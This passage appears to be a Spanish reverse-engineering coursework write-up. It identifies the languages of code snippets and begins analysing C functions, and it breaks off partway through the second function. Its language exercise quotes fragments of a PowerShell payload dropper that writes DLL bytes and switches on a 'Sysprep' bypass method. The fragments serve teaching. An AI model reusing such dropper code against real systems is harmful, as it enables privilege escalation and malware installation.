

# Índice 
- [Índice](#índice)
- [Ejercicio 1 - Identificación del lenguaje](#ejercicio-1---identificación-del-lenguaje)
  - [Trozo 1](#trozo-1)
    - [Definición de función](#definición-de-función)
    - [Declaraciones con :=](#declaraciones-con-)
    - [Uso de make para mapas](#uso-de-make-para-mapas)
    - [Conversión de tipos al estilo Go](#conversión-de-tipos-al-estilo-go)
    - [Uso de nil como valor nulo](#uso-de-nil-como-valor-nulo)
    - [Conclusión](#conclusión)
  - [Trozo 2](#trozo-2)
    - [La cabecera de la clase](#la-cabecera-de-la-clase)
    - [Anotaciones de tipos exclusivos de Typescript](#anotaciones-de-tipos-exclusivos-de-typescript)
    - [Uso de Javascript](#uso-de-javascript)
    - [Conclusión](#conclusión-1)
  - [Trozo 3](#trozo-3)
    - [Directiva al principio](#directiva-al-principio)
    - [Definición de procedimientos](#definición-de-procedimientos)
    - [Llamada a métodos de la aplicación host](#llamada-a-métodos-de-la-aplicación-host)
    - [Cuadros de mensaje y constantes vb](#cuadros-de-mensaje-y-constantes-vb)
    - [Firma de procedimiento con Optional, ByVal, As Tipo](#firma-de-procedimiento-con-optional-byval-as-tipo)
    - [Conclusión](#conclusión-2)
  - [Trozo 4](#trozo-4)
    - [La definición de la función](#la-definición-de-la-función)
    - [Declaraciones de variables locales](#declaraciones-de-variables-locales)
    - [Estructura del bucle y llamada a función](#estructura-del-bucle-y-llamada-a-función)
    - [Conclusión](#conclusión-3)
  - [Trozo 5](#trozo-5)
    - [Cmdlets con guiones y parámetros con el símbolo -](#cmdlets-con-guiones-y-parámetros-con-el-símbolo--)
    - [Variables con el símbolo $ delante](#variables-con-el-símbolo--delante)
    - [Uso de switch con strings entre comillas](#uso-de-switch-con-strings-entre-comillas)
    - [Operador match para expresiones regulares](#operador-match-para-expresiones-regulares)
    - [Tipos .NET entre corchetes y llamadas estáticas](#tipos-net-entre-corchetes-y-llamadas-estáticas)
    - [Conclusión](#conclusión-4)
- [Ejercicio 2 - Análisis de Funciones](#ejercicio-2---análisis-de-funciones)
  - [Función 1](#función-1)
    - [1. Identificación y propósito](#1-identificación-y-propósito)
    - [2. Naturaleza de la función](#2-naturaleza-de-la-función)
    - [3. Signatura y parámetros](#3-signatura-y-parámetros)
    - [4. Valor de retorno](#4-valor-de-retorno)
    - [5. Comportamiento y Efectos secundarios](#5-comportamiento-y-efectos-secundarios)
    - [6. Pureza y Estado](#6-pureza-y-estado)
    - [7. Sistema de tipos y visibilidad](#7-sistema-de-tipos-y-visibilidad)
    - [8. Relaciones con otras funciones y librerías](#8-relaciones-con-otras-funciones-y-librerías)
    - [9 Ejecución y depuración](#9-ejecución-y-depuración)
    - [10. Estructuras de control](#10-estructuras-de-control)
    - [11. Análisis de malware / seguridad](#11-análisis-de-malware--seguridad)
  - [Función 2](#función-2)
    - [1. Identificación y propósito](#1-identificación-y-propósito-1)
    - [2. Naturaleza de la función](#2-naturaleza-de-la-función-1)
    - [3. Signatura y parámetros](#3-signatura-y-parámetros-1)
    - [4. Valor de retorno](#4-valor-de-retorno-1)
    - [5. Comportamiento y Efectos secundarios](#5-comportamiento-y-efectos-secundarios-1)
    - [6. Pureza y Estado](#6-pureza-y-estado-1)
    - [7. Sistema de tipos y Visibilidad](#7-sistema-de-tipos-y-visibilidad-1)
    - [8. Relaciones con otras funciones y librerías](#8-relaciones-con-otras-funciones-y-librerías-1)
    - [9. Ejecución y depuración](#9-ejecución-y-depuración-1)
    - [10. Estructuras de control](#10-estructuras-de-control-1)
    - [11. Análisis de malware / seguridad](#11-análisis-de-malware--seguridad-1)
  - [Función 3](#función-3)
    - [1. Identificación y propósito](#1-identificación-y-propósito-2)
    - [2. Naturaleza de la función](#2-naturaleza-de-la-función-2)
    - [3. Signatura y parámetros](#3-signatura-y-parámetros-2)
    - [4. Valor de retorno](#4-valor-de-retorno-2)
    - [5. Comportamiento y Efectos secundarios](#5-comportamiento-y-efectos-secundarios-2)
    - [6. Pureza y Estado](#6-pureza-y-estado-2)
    - [7. Sistema de tipos y visibilidad](#7-sistema-de-tipos-y-visibilidad-2)
    - [8. Relaciones con otras funciones y librerías](#8-relaciones-con-otras-funciones-y-librerías-2)
    - [9. Ejecución y depuración](#9-ejecución-y-depuración-2)
    - [10. Estructuras de control](#10-estructuras-de-control-2)
    - [11. Análisis de malware / seguridad](#11-análisis-de-malware--seguridad-2)
  - [Función 4](#función-4)
    - [1. Identificación y propósito](#1-identificación-y-propósito-3)
    - [2. Naturaleza de la función](#2-naturaleza-de-la-función-3)
    - [3. Signatura y parámetros](#3-signatura-y-parámetros-3)
    - [4. Valor de retorno](#4-valor-de-retorno-3)
    - [5. Comportamiento y Efectos secundarios](#5-comportamiento-y-efectos-secundarios-3)
    - [6. Pureza y Estado](#6-pureza-y-estado-3)
    - [7. Sistema de tipos y Visibilidad](#7-sistema-de-tipos-y-visibilidad-3)
    - [8. Relaciones con otras funciones y librerías](#8-relaciones-con-otras-funciones-y-librerías-3)
    - [9. Ejecución y depuración](#9-ejecución-y-depuración-3)
    - [10. Estructuras de control](#10-estructuras-de-control-3)
    - [11. Análisis de malware / seguridad](#11-análisis-de-malware--seguridad-3)
  - [Función 5](#función-5)
    - [1. Identificación y Propósito](#1-identificación-y-propósito-4)
    - [2. Naturaleza de la función](#2-naturaleza-de-la-función-4)
    - [3. Signatura y parámetros](#3-signatura-y-parámetros-4)
    - [4. Valor de retorno](#4-valor-de-retorno-4)
    - [5. Comportamiento y Efectos (Side Effects)](#5-comportamiento-y-efectos-side-effects)
    - [6. Pureza y Estado](#6-pureza-y-estado-4)
    - [7. Sistema de Tipos y Visibilidad](#7-sistema-de-tipos-y-visibilidad-4)
    - [8. Relaciones con otras funciones y librerías](#8-relaciones-con-otras-funciones-y-librerías-4)
    - [9. Ejecución y depuración](#9-ejecución-y-depuración-4)
    - [10. Estructuras de control](#10-estructuras-de-control-4)
    - [11. Análisis de malware / seguridad](#11-análisis-de-malware--seguridad-4)
- [Ejercicio 3 - Análisis de variables](#ejercicio-3---análisis-de-variables)
  - [1. Parámetros y retorno](#1-parámetros-y-retorno)
  - [2. Variables locales que crea y necesita; ámbito de esas variables.](#2-variables-locales-que-crea-y-necesita-ámbito-de-esas-variables)
  - [3. Uso y modificación de parámetros](#3-uso-y-modificación-de-parámetros)
  - [4. Lectura - Escritura de valores globales](#4-lectura---escritura-de-valores-globales)
  - [5. Estructuras de control](#5-estructuras-de-control)
  - [6. Llamadas a funciones externas](#6-llamadas-a-funciones-externas)
  - [7. Puntos de salida de la función](#7-puntos-de-salida-de-la-función)
  - [8. En resumen](#8-en-resumen)
- [Ejercicio 4 - Bases de datos simbólicas](#ejercicio-4---bases-de-datos-simbólicas)
  - [1. Pasos para crear una base de datos simbólica en las herramientas elegidas](#1-pasos-para-crear-una-base-de-datos-simbólica-en-las-herramientas-elegidas)
    - [ctags](#ctags)
    - [global](#global)
    - [cscope](#cscope)
  - [2. Busqueda de todas las funciones “main” que existen](#2-busqueda-de-todas-las-funciones-main-que-existen)
    - [Global](#global-1)
    - [Cscope](#cscope-1)
  - [3. Búsqueda de las funciones que llaman a la función stringmatch](#3-búsqueda-de-las-funciones-que-llaman-a-la-función-stringmatch)
    - [Global](#global-2)
    - [Scope](#scope)
  - [4. Búsqueda de la declaración de struct stream](#4-búsqueda-de-la-declaración-de-struct-stream)
    - [La declaración de struct stream en el código](#la-declaración-de-struct-stream-en-el-código)
    - [Global](#global-3)
    - [Cscope](#cscope-2)
  - [5. Enumeración de las funciones que llaman la función genRedisInfoString](#5-enumeración-de-las-funciones-que-llaman-la-función-genredisinfostring)
    - [Cscope en Modo NO interactivo](#cscope-en-modo-no-interactivo)
    - [Cscope en Modo interactivo](#cscope-en-modo-interactivo)
- [Ejercicio 5 - Análisis de las variables de un programa](#ejercicio-5---análisis-de-las-variables-de-un-programa)
  - [Previo: Instalación de gdbgui](#previo-instalación-de-gdbgui)
  - [Análisis de las variables del programa](#análisis-de-las-variables-del-programa)
    - [1. `gni` (Global No Inicializada)](#1-gni-global-no-inicializada)
    - [2. `gi` (Global Inicializada)](#2-gi-global-inicializada)
    - [3. `eni` (Estática No Inicializada)](#3-eni-estática-no-inicializada)
    - [4. `ei` (Estática Inicializada)](#4-ei-estática-inicializada)
    - [5. `pae` (El puntero en sí) y `*pae` (El contenido apuntado / Memoria Dinámica)](#5-pae-el-puntero-en-sí-y-pae-el-contenido-apuntado--memoria-dinámica)
  - [Tabla resumen de las variables](#tabla-resumen-de-las-variables)
    - [Esquema general de memoria para esas variables](#esquema-general-de-memoria-para-esas-variables)
- [Ejercicio 6 - Desofuscación de un programa](#ejercicio-6---desofuscación-de-un-programa)
  - [Desofuscación del archivo](#desofuscación-del-archivo)
    - [Buscamos finalizaciones de línea](#buscamos-finalizaciones-de-línea)
    - [Búsqueda de cadenas con `\uXXXX`:](#búsqueda-de-cadenas-con-uxxxx)
    - [Eliminamos {...} seguido de un punto .](#eliminamos--seguido-de-un-punto-)
    - [Quitar los símbolos +](#quitar-los-símbolos-)
    - [Unir las cadenas](#unir-las-cadenas)
    - [Convertir todos los u00xx a caracteres](#convertir-todos-los-u00xx-a-caracteres)
      - [Añadir espacios donde falten en var...](#añadir-espacios-donde-falten-en-var)
      - [Renombrar variables para entender la lógica](#renombrar-variables-para-entender-la-lógica)
    - [Limpiar llamadas a los objetos](#limpiar-llamadas-a-los-objetos)
    - [Añadimos identación y espacios en blanco](#añadimos-identación-y-espacios-en-blanco)
  - [Analisis del comportamiento del malware](#analisis-del-comportamiento-del-malware)
    - [Persistencia - Auto-instalación](#persistencia---auto-instalación)
    - [Huella Digital  - Fingerprinting](#huella-digital----fingerprinting)
    - [Evasión de Antivirus - Anti-Sandbox](#evasión-de-antivirus---anti-sandbox)
    - [Conexión con el Servidor de Mando y Control - C2](#conexión-con-el-servidor-de-mando-y-control---c2)
    - [Descarga y Validación del Malware](#descarga-y-validación-del-malware)
    - [Ejecución y Limpieza](#ejecución-y-limpieza)
    - [Si falla o no se ejecuta nada](#si-falla-o-no-se-ejecuta-nada)
  - [Extracción los IOCs](#extracción-los-iocs)
    - [Indicadores de Red - Network Indicators](#indicadores-de-red---network-indicators)
    - [Indicadores de Host - Host-based Indicators](#indicadores-de-host---host-based-indicators)
    - [IoC de contenido - cadenas - strings](#ioc-de-contenido---cadenas---strings)
    - [Mapeo de las técnicas observadas en el código sobre la matriz MITRE ATT\&CK Enterprise](#mapeo-de-las-técnicas-observadas-en-el-código-sobre-la-matriz-mitre-attck-enterprise)
      - [Táctica: Execution - TA0002](#táctica-execution---ta0002)
      - [Táctica: Persistence - TA0003](#táctica-persistence---ta0003)
      - [Táctica: Defense Evasion - TA0005](#táctica-defense-evasion---ta0005)
      - [Táctica: Command and Control - TA0011](#táctica-command-and-control---ta0011)
      - [Táctica: Resource Development - TA0042 -  Command and Control](#táctica-resource-development---ta0042----command-and-control)
      - [Tabla resúmen de técnicas observadas sobre la matriz MITRE ATT\&CK](#tabla-resúmen-de-técnicas-observadas-sobre-la-matriz-mitre-attck)
  - [Laboratorio para probar este malware](#laboratorio-para-probar-este-malware)
    - [Paso 1: Redirección de DNS - El archivo Hosts](#paso-1-redirección-de-dns---el-archivo-hosts)
    - [Paso 2: El Payload - Hello World](#paso-2-el-payload---hello-world)
    - [Paso 3: Certificado SSL Falso](#paso-3-certificado-ssl-falso)
    - [Paso 4: El Listener C2 en Python](#paso-4-el-listener-c2-en-python)
    - [Cómo ejecutar la prueba](#cómo-ejecutar-la-prueba)
    - [Lo que debería pasar:](#lo-que-debería-pasar)


# Ejercicio 1 - Identificación del lenguaje
Cuando nos dan un código para que lo estudiemos, lo primero de todo es averiguar **en que lenguaje está escrito**. Ya sea **ensamblador o un lenguaje de alto nivel**, nuestro primer movimiento es observar los detalles del código para responder las siguientes preguntas: **¿Es un ensamblador o es código de alto nivel? ¿El sistema de tipos es dinámico o estático? ¿Es un lenguaje compilado o se trata de un lenguaje interpretado?** Para ello, vamos a entrenar la vista con trozos (la expresión anglosajona sería “snippet”) de código sobre los que debéis averiguar en que lenguaje esta escrito e indicar como lo habéis averiguado. Es decir, no basta con decir: “Es Perl.”

## Trozo 1


### Definición de función
```go
func InMemLoads() (map[string]Image, error) {
```
donde:
- Los tipos de retorno van después de los paréntesis, e incluso son múltiples `(map[string]Image, error)`. Esto es algo **muy típico de Go.**

---------------------------

### Declaraciones con :=
```go
ret := make(map[string]Image)
s, si, p := GetModuleLoadedOrder(0)
start := p
i := 1
```
donde:
- La declaración corta `short variable declaration` con `:=` es una **característica distintiva de Go.**


---------------------------

### Uso de make para mapas
```
make(map[string]Image)
```
donde: 
- `make` es una **función predefinida de Go (builtin)** que sirve específicamente para inicializar mapas, canales y slices.

---------------------------

### Conversión de tipos al estilo Go
```
Image{uint64(s), uint64(si)}
```
donde:
- **En Go** las conversiones se escriben como llamadas de función: `uint64(...)`.

---------------------------

### Uso de nil como valor nulo
```
return ret, nil
```
donde:
- **En Go**, `nil` representa el `valor cero` para ciertos tipos de referencia (punteros, interfaces, mapas, slices, canales y funciones) y significa `no hay valor / no apunta a nada`.


---------------------------

### Conclusión
**<mark>Este trozo está en Go (Golang)</mark>** porque los tipos de retorno van después de los paréntesis para definir funciones, devuelve `map[string]Image`, inicializa mapas con `make`, utiliza la asignación corta `:=` y las conversiones de tipo explícitas `uint64(...)`, elementos característicos de Go y no presentes juntos en otros lenguajes de alto nivel y compilado.
- Es un lenguaje de alto nivel.
- Usa un tipado estático `(map[string]Image, error, uint64, etc.)`.
- Es compilado. El código fuente de Go se traduce mediante el compilador go build directamente a código máquina. 


---------------------------

## Trozo 2


### La cabecera de la clase
```
export default class Encoder {
```
donde:
- `export default` es sintaxis de módulos `ES6 (JS/TS)`, que forma parte de JavaScript.
- `export default class Encoder` junto con anotaciones de tipo (`value: number`, `bytes: Uint8Array | Buffer | number[]`). Esa mezcla de módulos `ES6 + tipos estáticos` **apunta claramente a TypeScript.**

---------------------------

### Anotaciones de tipos exclusivos de Typescript
```
data: number[] = []
pushByte(value: number) {
pushInt(value: number, n: number, littleEndian=false) {
pushBytes(bytes: Uint8Array | Buffer | number[]) {
```
donde:
- El uso de tipos unidos con `| (Uint8Array | Buffer | number[])` y de tipos primitivos en los parámetros (`n: number, littleEndian=false`) **es sintaxis típica de TypeScript para tipado estático.​​**

---------------------------

### Uso de Javascript
```
let
const
b => this.data.push(b).
>>
&
```
donde:
- Usos de `let`, `const`.
- Arrow function: `b => this.data.push(b)`.
- Operadores bit a bit: `>>, & 0xff`.


---------------------------

### Conclusión
**<mark>Este trozo usa JavaScript moderno, y la combinación “JS + anotaciones de tipo” es precisamente lo que demuestra el uso de TypeScript.</mark>**
- Es un lenguaje de alto nivel.
- Tiene tipado estático (aunque se borra al compilar a JS).
- TypeScript se considera un lenguaje compilado, o más precisamente `transpilado`.
  - El código TypeScript no se ejecuta directamente en el navegador ni en Node; primero pasa por un compilador (tsc) que lo convierte a JavaScript estándar.
  - El resultado de esa compilación es JavaScript, y ese JavaScript sí se ejecuta de forma interpretada (o JIT‑compilada) por el motor correspondiente.

---------------------------

## Trozo 3


### Directiva al principio
```
Option Explicit
``` 
donde:
- **Es muy típica de VB/VBA** para obligar a declarar variables.

---------------------------

### Definición de procedimientos
```
Sub PDF2Workbook()
...
End Sub
``` 
donde:
- El uso de `Sub` ... `End Sub` para procedimientos es **propio de Visual Basic.**


----------------------------

### Llamada a métodos de la aplicación host
```
Application.Run "PDFTables2Workbook", , True
``` 
donde:
- `Application.Run` es **típico en VBA dentro de Excel/Word.**

---------------------------

### Cuadros de mensaje y constantes vb
```
MsgBox PDFTablesPages, vbOKOnly + vbInformation, " PDFTables"
``` 
donde:
- `MsgBox` y constantes como `vbOKOnly`, `vbInformation`, `vbNullString` **son constantes predefinidas de VBA.**

---------------------------

### Firma de procedimiento con Optional, ByVal, As Tipo
```
ub PDFTables2Workbook(Optional ByVal InitialFolderFile As String = vbNullString, _
                       Optional ByVal AllowMultiSelect As Boolean = False)
``` 
donde:
- Esta **Sintaxis es característica de Visual Basic/VBA.**


---------------------------

###  Conclusión
**<mark>Es Visual Basic for Applications (VBA)**</mark> porque usa la directiva `Option Explicit`, define procedimientos con `Sub ... End Sub`, utiliza parámetros `Optional ByVal ... As String/Boolean` y constantes predefinidas como `vbNullString y vbInformation`, todo ello típico de Visual Basic for Applications en macros de Office.
- Es un lenguaje de alto nivel.
- VBA usa un tipado estático:
  - Si declaramos `Dim x As String o Dim y As Boolean`, el tipo de esa variable queda fijado y el compilador comprueba compatibilidad de tipos.
  - `Option Explicit` obliga a declarar las variables antes de usarlas.
- En el contexto de VBA (macros de Office) se compila a `p-code` y lo ejecuta el intérprete de VBA dentro de la aplicación. A efectos prácticos en esta clasificación se suele considerar interpretado (no se produce un binario nativo independiente), pero realmente es **compilado a bytecode e interpretado por el runtime de Office**.


-----------------------------------

## Trozo 4


### La definición de la función
```
long uv__idna_toascii(const char* s, const char* se, char* d, char* de) {
``` 
donde:
- El Tipo de retorno al principio `(long)` y el uso de parámetros con **tipos clásicos de C** `(const char*)`.
- No hay clases, ni namespace, ni referencias (& en parámetros), tampoco aparece referencias a orientación a objetos → **parece más C que C++.**

----------------------------------------

### Declaraciones de variables locales
```
const char* si;
const char* st;
unsigned c;
char* ds;
int rc;
``` 
donde:
- Uso de punteros `(char*)` y del tipo `unsigned`, **muy típico en código C.**

----------------------------------------

### Estructura del bucle y llamada a función
```
while (si < se) {
    st = si;
    c = uv__utf8_decode1(&si, se);
    if (c == -1u)
        return UV_EINVAL;
}
``` 
donde:
- Sintaxis de control `(while, if)` **típica de la familia C.**
- Macros estilo `UV_EINVAL` **también son muy de C** (constantes definidas con `#define`).


----------------------------------------

### Conclusión
**<mark>Es C porque declara funciones y variables con tipos primitivos**</mark> `(long, unsigned, int)` y punteros `(const char*)`, usa un `while` con comparación de punteros, llama a funciones con paso de direcciones `(&si)` **<mark>y no aparece ninguna característica propia de C++ como referencias, new, class o namespace.**</mark>
- Es código de alto nivel, lenguaje C.
- C tiene tipado estático: todos los identificadores tienen tipo en tiempo de compilación (`long`, `int`, `char*`, `unsigned`, …).
- C es un lenguaje compilado: se traduce a código máquina (normalmente a través de un compilador como gcc, clang, etc.).


----------------------------------------


## Trozo 5


### Cmdlets con guiones y parámetros con el símbolo -
```
Out-File -FilePath $PayloadPath -InputObject $Payload -Encoding ascii
```
donde:
- `Out-File`, `Get-WmiObject`, `Write-Output`, `Write-Verbose` son `cmdlets` **típicos de PowerShell.**

---------------------------

### Variables con el símbolo $ delante
```
$PayloadPath
$OSVersion = (Get-WmiObject -Class win32_OperatingSystem).BuildNumber
```
donde:
- Las variables con prefijo `$` (`$OSVersion, $PayloadPath, $env:temp`) **son características de PowerShell.**

---------------------------

### Uso de switch con strings entre comillas
```
switch($method)
{
    "Sysprep"
    {
        ...
    }
}
```
donde:
- Sigue la **gramática propia de PowerShell.**

---------------------------

### Operador match para expresiones regulares
```
if ($OSVersion -match "76")
```
donde:
- Sigue la **gramática propia de PowerShell.**

---------------------------

### Tipos .NET entre corchetes y llamadas estáticas
```
[Byte[]] $temp = $DllBytes -split ' '
[System.IO.File]::WriteAllBytes($PathToDll, $temp)
```
donde:
- Muestran la **integración directa de PowerShell con .NET**, algo distintivo frente a otros shells.

---------------------------

### Conclusión
**<mark>Concluimos que este trozo está escrito en PowerShell.**</mark>
- Es un lenguaje de alto nivel, script de PowerShell.
- PowerShell usa tipado dinámico, aunque permite anotar tipos como `[Byte[]]`. Por defecto el sistema es dinámicamente tipado y resuelve tipos en tiempo de ejecución, no en compilación.
- Se considera un lenguaje interpretado / de scripting: el motor de PowerShell ejecuta el script directamente, sobre .NET.

---------------------------

# Ejercicio 2 - Análisis de Funciones

- Describe que hace la función.
- Define si es función o procedimiento.
- Define el tipo de la función.
- ¿Es o no es predicado?
- ¿Es o no es una función hoja?
- ¿Es o no es una función de sistema?
- ¿Es o no es una función con parámetros variables?
- Describe la signatura de la función.
  - Define los tipos de parámetros que recibe.
  - Define si una parámetros por defecto y qué valores poseen.
  - Define que tipo de dato devuelve.
  - Los parámetros que usa la función están pasado por valor o por referencia?

- Define que devuelve la función.
- Define si llama a otras funciones.
- Define si modifica algún parámetro o solo lee los valores recibidos?.
- Define si devuelve un objeto creado dentro de ella.
- Define si modifica objetos globales.
- Define el Sistema de tipos usados, son dinámicos, son estáticos.
- Funciones que importa o exporta. ¿Cómo el programa importa/exporta funciones de una librería? Mediante
  - Enlace dinámico.
  - Enlace estático.
  - Carga dinámica, durante la ejecución.
- ¿Es una función de usuario?
- ¿es una función que no cambia el estado del programa, es decir tiene transparencia referencial?
- ¿Es una función pura?
- ¿cual es el ámbito de la función (su visibilidad)?
- Define las variables que usa, son globales? son locales? son estáticas?
- Si muta o lee valores fuera de su ámbito. Es decir, valores no creados dentro de la función o que no forman parte de los parámetros de la función.
- ¿Posee o no parámetros constantes?
- tiene runtime?
- tiene símbolos de depuración?
- estamos en un modulo? una dll?
- Definir el ámbito: estamos en un modulo? una función?
- Explicar estructuras de bifurcación, repetición, saltos...


## Función 1

```
int aeResizeSetSize(aeEventLoop *eventLoop, int setsize) {
    int i;

    if (setsize == eventLoop->setsize) return AE_OK;
    if (eventLoop->maxfd >= setsize) return AE_ERR;
    if (aeApiResize(eventLoop,setsize) == -1) return AE_ERR;

    eventLoop->events = zrealloc(eventLoop->events,sizeof(aeFileEvent)*setsize);
    eventLoop->fired = zrealloc(eventLoop->fired,sizeof(aeFiredEvent)*setsize);
    eventLoop->setsize = setsize;

    /* Make sure that if we created new slots, they are initialized with
     * an AE_NONE mask. */
    for (i = eventLoop->maxfd+1; i < setsize; i++)
        eventLoop->events[i].mask = AE_NONE;
    return AE_OK;
}
```


### 1. Identificación y propósito
- **Nombre:** aeResizeSetSize
- **Contexto:** función C relacionada con un bucle de eventos (aeEventLoop).
- **Descripción:** La función aeResizeSetSize se encarga de redimensionar la capacidad del bucle de eventos (eventLoop). Intenta expandir los arrays que almacenan los eventos registrados y los eventos disparados (events y fired) para acomodar un nuevo tamaño (setsize). Si la redimensión es exitosa, inicializa las nuevas ranuras (slots) creadas con una máscara vacía (AE_NONE).


### 2. Naturaleza de la función
- **Clasificación:** Es una función porque devuelve un valor (`int`) usado típicamente como código de error/éxito. 
  - Aunque retorna int, su valor principal reside en los efectos secundarios (modificar el eventLoop), no en el cálculo de un valor.
  - Tiene efectos secundarios significativos (modifica el estado del programa), por lo que **actúa semánticamente como un procedimiento que devuelve un código de error.**
- **Origen:** Función de usuario, no forma parte de la biblioteca estándar del lenguaje. No es una función de sistema. Es código definido por el programador (o la librería), no una llamada directa al kernel del sistema operativo.
- **¿Predicado?** No estrictamente; devuelve un código de error/éxito, no un booleano puro. Un predicado suele devolver un booleano (verdadero/falso) evaluando una condición lógica.
- **¿Función hoja?** No. Llama a otras funciones: aeApiResize y zrealloc. Por lo tanto, no es una hoja (leaf function) en el árbol de llamadas.


### 3. Signatura y parámetros
- **Signatura:** `int aeResizeSetSize(aeEventLoop *eventLoop, int setsize)`
- **Aridad:** 2 parámetros → función binaria.
- **Parámetros:**
  - `eventLoop`:
    - Tipo: aeEventLoop *. Un puntero a una estructura aeEventLoop.
    - Paso: por valor, pero es un puntero → permite modificar la estructura apuntada.
    - No está declarado const.
    - Mutabilidad: Se modifica intensivamente (punteros internos y metadatos).

  - `setsize`:
    - Tipo: int. Un entero que representa el nuevo tamaño deseado.
    - Paso: por valor.
    - Tampoco está declarado const, aunque en la práctica no se modifica.

- **No hay palabra clave const en ninguno.** Ninguno de los parámetros está marcado con el calificador const.
- **No tiene parámetros por defecto.** El lenguaje C no soporta parámetros por defecto. Ambos deben ser provistos al llamar la función.
- **No es una función con parámetros variables.** Tiene un número fijo de argumentos.


### 4. Valor de retorno
- **Tipo devuelto:** int. (Entero con signo).
- **¿Qué devuelve la función?:** Devuelve constantes simbólicas (macros):
  - AE_OK → Si la operación fue exitosa.
  - AE_ERR → Si hubo un error. Por:
    - setsize demasiado pequeño (maxfd >= setsize), o
    - fallo de aeApiResize.
- **¿Devuelve un objeto creado dentro de ella?:** No. Solo devuelve un código de estado entero.


### 5. Comportamiento y Efectos secundarios
- **¿Llama a otras funciones?:** Sí.
  - aeApiResize(eventLoop, setsize)
  - zrealloc(...) (Una envoltura de realloc).
- **¿Modifica algún parámetro o solo lee?:** Modifica el contenido apuntado por el parámetro eventLoop. Específicamente actualiza sus punteros internos (events, fired) y el campo setsize.
- **¿Modifica objetos globales?:** Técnicamente modifica memoria en el heap (montículo) a través de zrealloc. Si la estructura eventLoop a la que apunta el puntero es global, entonces sí modifica un objeto global.
- **Muta o lee valores fuera de su ámbito:** Sí. Al acceder a eventLoop->events y eventLoop->fired, está mutando memoria que fue asignada fuera del ámbito de esta función específica.


### 6. Pureza y Estado
- **¿Es una función pura?:** No.
  - Depende de estado externo (el contenido de eventLoop).
  - Tiene efectos secundarios (modifica eventLoop, realiza asignación de memoria).
- **Transparencia referencial:** No tiene. No se puede reemplazar la llamada a la función simplemente por su valor de retorno sin perder la lógica de redimensionamiento del sistema.
- **¿Es una función que no cambia el estado del programa?:** No. Su propósito principal es cambiar el estado del programa (redimensionar estructuras de datos).


### 7. Sistema de tipos y visibilidad
- **Lenguaje:** C, tipado estático. Los tipos se verifican en tiempo de compilación.
- **Los tipos se conocen en compilación:** int, aeEventLoop *, aeFileEvent, aeFiredEvent.
- **Enlace (Linkage):** Externo (Público).
  - No tiene static delante, así que por defecto tiene enlace externo (visible desde otros archivos si se declara en un header).

### 8. Relaciones con otras funciones y librerías
- **Llama a:**
  - aeApiResize(eventLoop, setsize) → parte dependiente del sistema/implementación del backend de eventos.
  - zrealloc(...) → wrapper de realloc (muy probablemente), función de memoria.
- **No importa/exporta directamente librerías** en el propio código; eso ocurre a nivel de compilación/enlace del módulo donde está definida.
- **Mecanismo de importación/exportación:** Depende de la compilación. Normalmente, en C, esto se resuelve mediante el Enlace (Linking). Si es parte de un ejecutable monolítico, es enlace estático. Si ae.c se compila en una .dll o .so, se usaría enlace dinámico.


### 9 Ejecución y depuración
- Usa el runtime estándar de C (para memoria dinámica, aunque envuelto en zrealloc).
- El fragmento es código fuente; si el binario se compila con símbolos de depuración o no depende de las opciones del compilador, aquí no se ve.

### 10. Estructuras de control
- **Bifurcación:**
  - Tres if seguidos con return temprano:
    - Igualdad de tamaños.
    - Comprobación maxfd >= setsize.
    - Resultado de aeApiResize.
- **Repetición:**
  - Un bucle `for (i = eventLoop->maxfd+1; i < setsize; i++)`: Inicializa las nuevas posiciones de events con AE_NONE.
- **Saltos / flujo:**
  - `return` múltiple (salidas tempranas en caso de error o no-cambio).
  - No hay break, continue, goto, ni manejo de excepciones (en C estándar no hay try/catch).

### 11. Análisis de malware / seguridad
- Desde el punto de vista de malware, esta función no muestra comportamiento típico malicioso.
- Conclusión en clave malware: Es una función de infraestructura interna de un event loop (gestión de arrays de eventos). Por sí sola no es indicio de comportamiento malicioso.


---------------------------

## Función 2


```
static int
args_cmp(struct args_entry *a1, struct args_entry *a2)
{
        return (a1->flag - a2->flag);
}
```

### 1. Identificación y propósito
- **Nombre:** args_cmp
- **Contexto:** función C, probablemente usada como función de comparación.
- **Descripción:** La función args_cmp compara dos estructuras del tipo struct args_entry. Resta el valor del campo flag de la segunda estructura (a2) al de la primera (a1).
  - El propósito de este patrón es servir como función de comparación, típicamente utilizada por algoritmos de ordenamiento como qsort o de búsqueda como bsearch.
  - Si el resultado es < 0: a1 es menor que a2.
  - Si el resultado es 0: Son iguales.
  - Si el resultado es > 0: a1 es mayor que a2.


### 2. Naturaleza de la función
- **Clasificación:** Es una función, ya que su objetivo principal es calcular y devolver un valor (int) sin generar efectos secundarios.
- **Origen:** Función de usuario, no forma parte de la biblioteca estándar. Función auxiliar / Comparador (Helper function).
- **¿Predicado?:** No, devuelve un valor de comparación, no un booleano puro.
- **¿Función hoja?:** Sí. No llama a ninguna otra función; solo hace una operación aritmética.


### 3. Signatura y parámetros
- **Signatura:** `static int args_cmp(struct args_entry *a1, struct args_entry *a2);`
- **Aridad:** 2 parámetros → función binaria.
- **Parámetros:**
  - `a1`:
    - Tipo: struct args_entry *. Puntero a la primera estructura (LHS - Left Hand Side).
